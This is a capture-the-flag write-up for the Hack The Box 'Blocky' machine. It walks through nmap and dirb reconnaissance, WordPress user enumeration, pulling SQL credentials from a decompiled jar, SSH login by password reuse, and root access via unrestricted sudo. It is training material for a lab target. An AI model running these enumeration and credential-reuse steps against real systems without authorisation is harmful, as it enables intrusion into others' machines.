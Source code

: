 ![image](https://user-images.githubusercontent.com/105310322/187503223-277a4fc5-0ee2-446d-ac4b-d18e9dd8ca8f.png)

### Tools: nmap, dirb, jd-gui

### Vulnerabilities: wordpress, php, credentials


Starting off we have a few open ports. I first tested the ftp login for anonymous but that didn't work. So I tried accessing the website but kept getting issues.

```console
└──╼ [★]$ sudo nmap -sC -sV -A 10.129.67.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 17:57 BST
Nmap scan report for 10.129.67.120
Host is up (0.011s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp?
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (94%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.16 (93%), Linux 4.2 (93%), Linux 4.4 (93%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 - 4.6 (91%), Linux 3.2 - 4.9 (91%), Linux 3.18 (90%), Linux 3.2 - 3.8 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   17.78 ms 10.10.14.1
2   16.72 ms 10.129.67.120

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 240.66 seconds
```

A quick change to my hosts table will fix the redirect and allow us to access the site.

```console
└──╼ [★]$ sudo vim /etc/hosts
```
Add the following to the last line in the file.

```console
10.129.67.120 blocky.htb
```
We have a couple of links on the site including one for a login.

![image](https://user-images.githubusercontent.com/105310322/186245120-6ea699e9-7c27-4529-a551-060309b9656b.png)

![image](https://user-images.githubusercontent.com/105310322/186247909-49521513-6f0b-4ea2-b9c4-31a88c92ef57.png)



Since the login page is running wordpress we can do some enumeration. After running it we find 1 user "Notch". I thought maybe the user had a weak password so I tried a little of that and even tried the lost password section to see if I could capture something there. No luck. So lets see if dirb finds anything else.

```console
└──╼ [★]$ nmap -v --script http-wordpress* blocky.htb -p 80
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 19:31 BST
NSE: Loaded 3 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:31
Completed NSE at 19:31, 0.00s elapsed
Initiating Ping Scan at 19:31
Scanning blocky.htb (10.129.67.120) [2 ports]
Completed Ping Scan at 19:31, 0.02s elapsed (1 total hosts)
Initiating Connect Scan at 19:31
Scanning blocky.htb (10.129.67.120) [1 port]
Discovered open port 80/tcp on 10.129.67.120
Completed Connect Scan at 19:31, 0.00s elapsed (1 total ports)
NSE: Script scanning 10.129.67.120.
Initiating NSE at 19:31
Completed NSE at 19:31, 8.24s elapsed
Nmap scan report for blocky.htb (10.129.67.120)
Host is up (0.018s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-users: 
| Username found: notch
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|     akismet 3.3.2
|   themes
|     twentyfifteen 1.8
|     twentysixteen 1.3
|_    twentyseventeen 1.3
```


The dirb reveals alot of info. With most of them not meaning much I finally got some headway in the /plugins section of the site that led to 2 jar files.

```console
└──╼ [★]$ dirb http://blocky.htb /usr/share/dirb/wordlists/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug 23 19:48:05 2022
URL_BASE: http://blocky.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://blocky.htb/ ----
==> DIRECTORY: http://blocky.htb/javascript/                                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/                                   
==> DIRECTORY: http://blocky.htb/plugins/                                      
+ http://blocky.htb/server-status (CODE:403|SIZE:298)                          
==> DIRECTORY: http://blocky.htb/wiki/                                         
==> DIRECTORY: http://blocky.htb/wp-admin/                                     
==> DIRECTORY: http://blocky.htb/wp-content/                                   
==> DIRECTORY: http://blocky.htb/wp-includes/                                  
                                                                               
---- Entering directory: http://blocky.htb/javascript/ ----
==> DIRECTORY: http://blocky.htb/javascript/jquery/                            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/                               
+ http://blocky.htb/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)               
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/                                
+ http://blocky.htb/phpmyadmin/libraries (CODE:403|SIZE:305)                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/locale/                            
+ http://blocky.htb/phpmyadmin/setup (CODE:401|SIZE:457)                       
==> DIRECTORY: http://blocky.htb/phpmyadmin/sql/                               
==> DIRECTORY: http://blocky.htb/phpmyadmin/templates/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/themes/                            
                                                                               
---- Entering directory: http://blocky.htb/plugins/ ----
==> DIRECTORY: http://blocky.htb/plugins/assets/                               
==> DIRECTORY: http://blocky.htb/plugins/files/                                
                                                                               
---- Entering directory: http://blocky.htb/wiki/ ----
                                                                               
---- Entering directory: http://blocky.htb/wp-admin/ ----
==> DIRECTORY: http://blocky.htb/wp-admin/css/                                 
==> DIRECTORY: http://blocky.htb/wp-admin/images/                              
==> DIRECTORY: http://blocky.htb/wp-admin/includes/                            
==> DIRECTORY: http://blocky.htb/wp-admin/js/                                  
==> DIRECTORY: http://blocky.htb/wp-admin/maint/                               
==> DIRECTORY: http://blocky.htb/wp-admin/network/                             
==> DIRECTORY: http://blocky.htb/wp-admin/user/                                
                                                                               
---- Entering directory: http://blocky.htb/wp-content/ ----
==> DIRECTORY: http://blocky.htb/wp-content/plugins/                           
==> DIRECTORY: http://blocky.htb/wp-content/themes/                            
==> DIRECTORY: http://blocky.htb/wp-content/uploads/                           
                                                                               
---- Entering directory: http://blocky.htb/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://blocky.htb/javascript/jquery/ ----
+ http://blocky.htb/javascript/jquery/jquery (CODE:200|SIZE:284394)            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/doc/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/html/                          
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/js/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/jquery/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/pmd/                            
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/transformations/                
                                                                      
```  

Using ```jd-gui``` from the terminal will open the program and we can open blockycore.jar.
It is a small file that reveals a sqlpass and sqluser.

![image](https://user-images.githubusercontent.com/105310322/186242875-61349b7a-819b-4972-958f-88b233bcfbff.png)


Since there was an ssh port open we can try that first. Root doesnt work so I try notch instead and we get in and can cat that sweet sweet user flag.

```console
└──╼ [★]$ ssh notch@blocky.htb
The authenticity of host 'blocky.htb (10.129.67.120)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'blocky.htb,10.129.67.120' (ECDSA) to the list of known hosts.
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
0f10d****************************
notch@Blocky:~$ 
```
Whenever I get into a machine as a user I always like to check my sudo permissions. This 1 was a suprise since it can run everything as sudo. 1st time for everything on HTB.

By running an easy sudo /bin/bash we quickly become root and cat the root flag!

```console
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# 
```
```console
root@Blocky:/root# ls
root.txt
root@Blocky:/root# cat root.txt
46ea****************************
root@Blocky:/root# 
```

GG!!
